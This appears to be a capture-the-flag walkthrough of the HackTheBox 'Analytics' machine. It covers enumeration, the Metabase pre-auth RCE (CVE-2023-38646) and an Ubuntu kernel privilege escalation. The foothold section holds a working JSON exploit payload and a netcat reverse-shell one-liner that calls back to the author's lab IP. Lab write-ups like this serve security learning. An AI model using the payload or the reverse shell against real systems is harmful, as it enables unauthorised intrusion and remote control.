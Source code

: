 # HackTheBox - Analytics


This post is focused on the walkthrough of Easy machine Analytics from HackTheBox.

<!--more-->

## Summary

Analytics involves exploitation of Pre-Auth RCE in Metabase (CVE-2023-38646) to get foothold in a docker container, getting some credentials to ssh into the host machine. Finally, exploiting a local privilege escalation vulnerability in Ubuntu Kernel (CVE-2023-32629) to get shell as root.

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/ambassador]
└─$ nmap -A -vv 10.10.11.233 -oN nmapN

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

So we only got 22 and 80 open.

We'll start off with port 80 web.

The website redirects to `analytical.htb` and visiting the site, there seems nothing of interest but there's a subdomain `data.analytical.htb` link on the page.

![page source](1.png "page source")

The subdomain shows `Metabase` sign in page.

![data.analytical.htb](2.png "data.analytical.htb")

Looking for metabase exploits, we get `CVE-2023-38646`.

[This](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) shows the exploitation steps.

## Foothold

To get RCE, we first need to make a GET request to `/api/session/properties` and extract the `setup-token` from the response.

![Fetching the setup-token](3.png "Fetching the setup token")

Then we need to call POST `/api/setup/validate` with the following body to execute a simple curl command.

POST body for `/api/setup/validate`
```json
{
        "token": <setup-token>,
        "details": {
            "is_on_demand": false,
            "is_full_sync": false,
            "is_sample": false,
            "cache_ttl": null,
            "refingerprint":false,
            "auto_run_queries": true,
            "schedules": {},
            "details": {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl http://10.10.14.91')\n$$--=x",
                "advanced-options":false,
                "ssl": true
            },
            "name": "test",
            "engine": "h2"
        }
    }
```
Notice I'm using a simple `curl` to my local python server to check for a hit.

!["executing curl"](4.png "executing curl")

And we get a successful hit on our server.

!["python server"](5.png "python server")

We can simply execute a reverse shell and get the shell but for some reason normal shell payload weren't working here.

Fortunately, a simple `nc 10.10.14.91 4444 -e bash` worked.

Execute it and we'll get the shell as metabase.

!["shell as metabase"](6.png "shell as metabase")

## Getting a shell on host

We're inside a docker container and we concluded that from our IP and also the presence of `.dockerenv` at `/`.

![docker container](8.png "docker container")

Checking the `environment variables`, we get a password in there.

![env](7.png "env")

Trying this password for the user `metalytics` we get access to the host machine.

![shell as metalytics](9.png "shell as metalytics")

Here we get the `user.txt`.

### user.txt

![user.txt](10.png "user.txt")

## Privilege Escalation

`/etc/os-release` shows the server's is running `Ubuntu 22.04 Jammy Jellyfish`

![/etc/os-release](11.png "/etc/os-release")

A quick google search and we find `CVE-2023-32629`.

It's a privilege escalation vulnerability in Ubuntu Kernal. You can read about this vuln [here](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/).

As for the PoC to exploit this, I used [this](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) one.

Executing the script, we get shell as root.

!["PE to root"](12.png "PE to root")

And now we get the root flag.

### root.txt

![root.txt](13.png "root.txt")

**Thanks for reading!**


